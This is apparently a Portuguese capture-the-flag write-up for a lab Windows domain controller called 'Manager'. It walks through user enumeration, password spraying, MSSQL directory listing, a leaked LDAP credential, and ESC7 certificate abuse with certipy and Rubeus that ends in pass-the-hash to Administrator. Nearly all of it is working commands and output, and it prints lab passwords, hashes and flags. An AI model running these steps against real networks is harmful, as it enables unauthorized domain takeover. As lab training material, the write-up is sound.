





# Writeup manager

## Scan

```
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-06 03:38:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-01-06T03:40:36+00:00; +8h29m29s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
|_SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
|_SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
|_ssl-date: 2024-01-06T03:40:35+00:00; +8h29m30s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2024-01-06T03:40:36+00:00; +8h29m28s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-06T03:16:46
| Not valid after:  2054-01-06T03:16:46
| MD5:   76ba198d6cb14a44389d54ae5607cf08
|_SHA-1: 50e0be2325638d3faa058f7df779c3d35e2f9ab9
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-01-06T03:40:36+00:00; +8h29m25s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
|_SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
|_SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
|_ssl-date: 2024-01-06T03:40:35+00:00; +8h29m30s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49732/tcp open  msrpc         Microsoft Windows RPC
57474/tcp open  msrpc         Microsoft Windows RPC
61666/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h29m28s, deviation: 1s, median: 8h29m28s
| smb2-time:
|   date: 2024-01-06T03:39:56
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   219.73 ms 10.10.14.1
2   221.49 ms 10.129.25.234

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan  5 16:11:11 2024 -- 1 IP address (1 host up) scanned in 605.60 seconds
```

## Enumeration & Exploitation

  Após o scan, podemos encontrar alguns usuários usando o rid-brute do netexec.

```
└─$ netexec smb manager.htb --rid-brute -u "guest" -p ""
SMB         10.129.23.242   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.23.242   445    DC01             [+] manager.htb\guest:
SMB         10.129.23.242   445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.23.242   445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.129.23.242   445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.129.23.242   445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.129.23.242   445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.129.23.242   445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.129.23.242   445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.129.23.242   445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.129.23.242   445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.129.23.242   445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.129.23.242   445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.129.23.242   445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.129.23.242   445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.23.242   445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.23.242   445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.23.242   445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.129.23.242   445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.129.23.242   445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.23.242   445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.23.242   445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.23.242   445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.23.242   445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.129.23.242   445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.129.23.242   445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.23.242   445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.129.23.242   445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.129.23.242   445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.129.23.242   445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.129.23.242   445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.129.23.242   445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.129.23.242   445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.129.23.242   445    DC01             1119: MANAGER\Operator (SidTypeUser)
```
  Esses usuário também podem ser encontrados utilizando o kerbrute no modo enum.

```
/opt/kerbrute/dist/kerbrute_linux_amd64 userenum -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.129.25.234 -o kerbrute_output.txt
```

  Com os usuários identificados, podemos criar uma lista para usarmos em um ataque de brute force.

```
netexec smb manager.htb -u kerbrute_output.txt -p kerbrute_output.txt --continue-on-success
```

  Após um tempo executando, é possível encontrar as credenciais `operator:operator`.

```
netexec smb manager.htb -u kerbrute_output.txt -p kerbrute_output.txt --continue-on-success
SMB         10.129.23.242   445    DC01             [-] manager.htb\raven:operator STATUS_LOGON_FAILURE
SMB         10.129.23.242   445    DC01             [-] manager.htb\guest:operator STATUS_LOGON_FAILURE
SMB         10.129.23.242   445    DC01             [-] manager.htb\administrator:operator STATUS_LOGON_FAILURE
SMB         10.129.23.242   445    DC01             [+] manager.htb\operator:operator
```
  Com o usuário **operator**, podemos logar no mssql.

```
┌──(kali㉿kali)-[~]
└─$ netexec mssql manager.htb -u operator -p operator
MSSQL       10.129.23.242   1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.129.23.242   1433   DC01             [+] manager.htb\operator:operator

┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient manager.htb/operator:operator@manager.htb -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL>
```

  Após um tempo, podemos identificar que é possível listar conteúdos do diretórios na máquina e usamos isso pra enumerar os arquivos da máquina.  

  **Referencia**: https://stackoverflow.com/questions/11559846/how-to-list-files-inside-a-folder-with-sql-server

  **OBS**: O post ensina o seguinte comando `EXEC xp_dirtree 'C:\', 2, 1`, porém, após uns testes, foi identificado que esse comando é recursivo. Para listar sem a recursividade, usamos o comando `EXEC xp_dirtree 'C:\', 1, 1`

  Ao enumerar o diretório "C:\inetpub\wwwroot" podemos identificar um arquivo .zip que podemos baixar através do webserver e examinar.

```
SQL> EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1
subdirectory                                                                                                                                                                                                                                                            depth          file   

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   -----------   

about.html                                                                                                                                                                                                                                                                  1             1   

contact.html                                                                                                                                                                                                                                                                1             1   

css                                                                                                                                                                                                                                                                         1             0   

images                                                                                                                                                                                                                                                                      1             0   

index.html                                                                                                                                                                                                                                                                  1             1   

js                                                                                                                                                                                                                                                                          1             0   

service.html                                                                                                                                                                                                                                                                1             1   

web.config                                                                                                                                                                                                                                                                  1             1   

website-backup-27-07-23-old.zip                                                                                                                                                                                                                                             1             1   

```



  Feito o download, podemos descompactar e ver o conteúdo nos arquivos existentes. Ao procurar por informacoes, podemos notar que o arquivo **.old-conf.xml** possui uma credencial para um usuário chamado "raven@manager.htb".

```
└─$ cat .old-conf.xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

  Ao testar essas credenciais no netexec, podemos ver que temos acesso ao winrm e podemos usá-la para logar e pegar a flag.

```
┌──(kali㉿kali)-[~]
└─$ netexec winrm manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
SMB         10.129.23.242   445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.129.23.242   5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)

┌──(kali㉿kali)-[~]
└─$ evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Raven\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Raven\Desktop> cat user.txt
b45e65dd70e1e8c09b47973d505210a6
*Evil-WinRM* PS C:\Users\Raven\Desktop>
```

## Privilege Escalation

  Para Privilege Escalation, usaremos uma técnica de abuso de certificados

**Referências:**

1. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

2. [Certipy - Tool](https://github.com/ly4k/Certipy)

  De início, devemos listar os certificados presentes e vulneráveis na máquina.

```
└─$ certipy find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.23.242
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Saved BloodHound data to '20240106203142_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240106203142_Certipy.txt'
[*] Saved JSON output to '20240106203142_Certipy.json'
```

  Tendo executado o comando, podemos olhar o arquivo gerado (20240106203142_Certipy.txt) e ver os certificados encontrados e se possuem vulnerabilidades. Nessa busca, encontramos que a máquina possui uma vulnerabilidade conhecida como **ESC7**.



  Para explorar essa vuln, podemos seguir o passo a passo encontrado no **ESC7** do hacktricks.

```
  1) certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.23.242 (Concede ao usuário selecionado o poder de gerenciar certificados - MUITO IMPORTANTE)

  2) certipy ca -ca 'manager-DC01-CA' -list-templates -username raven -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.23.242 (Lista os certificados habilitados, para a exploracao funcionar é necessário a existencia do certificado "SubCA". Se ele estiver na lista, pule o passo 2.1)

    2.1) certipy ca -ca 'manager-DC01-CA' -username raven -password 'R4v3nBe5tD3veloP3r!123' -enable-template 'SubCA' -dc-ip 10.129.23.242 (Habilitar o certificado especificado, neste caso, o "SubCA")

  3) certipy req -username raven -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -template SubCA -upn 'administrator@manager.htb' -target-ip 10.129.23.242 (Gera o ID de requisicao do certificado - IRÁ FALHAR. OBS: o upn precisa conter o domínio)

  4) certipy ca -ca 'manager-DC01-CA' -issue-request 13 -username raven -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.23.242 (Aprova o certificado referente ao ID gerado no comando anterior)

  5) certipy req -username raven -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -retrieve 23 -dc-ip 10.129.23.242  (Recupera o certificado referente ao ID aprovado no comando anterior)
```

  Para a exploracao funcionar, os comandos devem ser executados com pouco espaco de delay entre eles, o que pode ser feito se for usado em uma oneliner.

```
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.23.242 && certipy req -username raven -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -template SubCA -upn 'administrator@manager.htb' -target-ip 10.129.23.242 && certipy ca -ca 'manager-DC01-CA' -issue-request 19 -username raven -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.23.242 && certipy req -username raven -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -retrieve 19 -dc-ip 10.129.23.242
```



  Com o arquivo pfx do administrator, podemos usá-lo para pegar o seu hash ntlm.

  No certipy o comando para recuperar é: `certipy auth -pfx administrator.pfx -dc-ip 10.129.23.242`, porém ficava dando erro mesmo sincronizando o relogio da máquina com o do AD utilizando o ntpdate.





  Para contornar esse problema, podemos usar o rubeus e arquivo pfx para pegarmos o hash NTLM no AD.

```
└─$ evil-winrm -i 10.129.23.242 -u raven -p 'R4v3nBe5tD3veloP3r!123'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Raven\Documents> upload /opt/Privesc_scripts/Windows_Privesc/ghostpack/Rubeus.exe C:\Users\Raven\Documents\Rubeus.exe
Info: Uploading /opt/Privesc_scripts/Windows_Privesc/ghostpack/Rubeus.exe to C:\Users\Raven\Documents\Rubeus.exe

Data: 595968 bytes of 595968 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Raven\Documents> upload /manager/administrator.pfx C:\Users\Raven\Documents\administrator.pfx
Info: Uploading /manager/administrator.pfx to C:\Users\Raven\Documents\administrator.pfx

Data: 3840 bytes of 3840 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Raven\Documents> ./Rubeus.exe asktgt /user:Administrator /certificate:administrator.pfx /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Raven
[*] Building AS-REQ (w/ PKINIT preauth) for: 'manager.htb\Administrator'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      dBsLbWFuYWdlci5odGI=

  ServiceName              :  krbtgt/manager.htb
  ServiceRealm             :  MANAGER.HTB
  UserName                 :  Administrator
  UserRealm                :  MANAGER.HTB
  StartTime                :  1/6/2024 11:17:17 PM
  EndTime                  :  1/7/2024 9:17:17 AM
  RenewTill                :  1/13/2024 11:17:17 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  0/Xsn41NGKYwMySOZY6l+A==
  ASREP (key)              :  31247C6D65C611755DEEBC214E2A8CBF

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : AE5064C2F62317332C88629E025924EF
*Evil-WinRM* PS C:\Users\Raven\Documents>

```

  Com o hash NTLM, podemos usar a técnica de PTH para logar na máquina.

```
└─$ evil-winrm -i manager.htb -u administrator -H 'AE5064C2F62317332C88629E025924EF'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc()

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winr

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
58012e9161a47c1785761737311cb716
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```
